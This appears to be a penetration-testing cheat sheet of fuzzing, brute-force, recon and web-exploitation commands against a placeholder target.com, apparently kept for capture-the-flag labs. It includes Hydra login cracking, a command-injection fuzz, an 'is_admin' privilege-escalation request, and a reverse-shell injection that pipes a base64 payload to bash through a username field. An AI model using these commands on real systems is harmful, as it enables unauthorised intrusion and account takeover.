 ##  Web Fuzzing Tools

### 🔹 FFUF — Fuzzing parameters, files, login forms, subdomains
```bash
ffuf -w wordlist.txt -u http://target.com/FUZZ
```
**Examples:**
- Fuzz POST param for command injection:
```bash
ffuf -w /usr/share/wordlists/SecLists/Fuzzing/command-injection-commix.txt \
  -u http://target.com/ -X POST \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "url=FUZZ" -fw 3
```
- Login form brute force:
```bash
ffuf -w usernames.txt:USERNAME -w passwords.txt:PASSWORD -X POST \
  -u http://target.com/login \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "username=USERNAME&password=PASSWORD" -fc 401
```
- Subdomain fuzzing:
```bash
ffuf -w subdomains.txt -u http://target.com/ -H "Host: FUZZ.target.com" -fs 0
```

### 🔹 Gobuster
```bash
gobuster dir -u http://target.com/ -w wordlist.txt -x php,html,txt -t 50 --exclude-length 53
```
- DNS mode:
```bash
gobuster dns -d target.com -w subdomains.txt -t 50
```

### 🔹 Dirsearch
```bash
dirsearch -u http://target.com/ -e php,html,txt -w wordlist.txt -t 40
```

### 🔹 Feroxbuster
```bash
feroxbuster -u http://target.com/ -w wordlist.txt -x php,html -t 50 -r
```

### 🔹 Wfuzz
```bash
wfuzz -w wordlist.txt -u http://target.com/FUZZ --hc 404
wfuzz -w wordlist.txt -u http://target.com/FUZZ.php --hc 404
```
- Fuzz headers:
```bash
wfuzz -w common.txt -u http://target.com/ -H "X-Forwarded-For: FUZZ" --hc 404
```

### 🔹Link to different [[Word List]] 
---

##  Fuzzing Parameters / Cookies / Headers

- Fuzz GET parameter values:
```bash
ffuf -u "http://target.com/page.php?param=FUZZ&static=value" -w wordlist.txt -mc all -fc 302 -H "Cookie: PHPSESSID=abcd"
```
- Fuzz cookies:
```bash
ffuf -w common.txt -u http://target.com/ -H "Cookie: FUZZ=1" -fs 0
```
- Fuzz headers:
```bash
wfuzz -w common.txt -u http://target.com/ -H "X-Header: FUZZ" --hc 404
```

---

##  Brute Force / Login Cracking

### 🔹 Hydra
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt target.com http-post-form \
"/login:username=^USER^&password=^PASS^:F=Login failed"
```

---

##  Recon Tools

### 🔹 WhatWeb
```bash
whatweb http://target.com
```
> Detects technologies used by a website

### 🔹 Sublist3r
```bash
sublist3r -d target.com -o subdomains.txt
```

### 🔹 SearchSploit
```bash
searchsploit keyword
```
> Searches for known exploits in Exploit-DB

---

##  API Interaction / Web Exploitation

### 🔹 Basic curl with JSON
```bash
curl -sX PUT http://target.com/api/endpoint \
  --cookie "PHPSESSID=sessionid" \
  -H "Content-Type: application/json" \
  -d '{"email": "user@htb.com", "is_admin": 1}' | jq
```

### 🔹 Reverse shell via curl + API
```bash
curl -sX POST http://target.com/api \
  --cookie "PHPSESSID=sessionid" \
  -H "Content-Type: application/json" \
  -d '{"username": "theo;echo <base64_payload> | base64 -d | bash;"}'
```
> Always encode payload in Base64 to avoid special char issues

---

##  SSRF Exploitation

### 🔹 SSRFmap
```bash
ssrfmap.py -r request.txt -p url -m portscan
```
> Exploits SSRF via given request, fuzzes the 'url' parameter, and runs internal port scanning



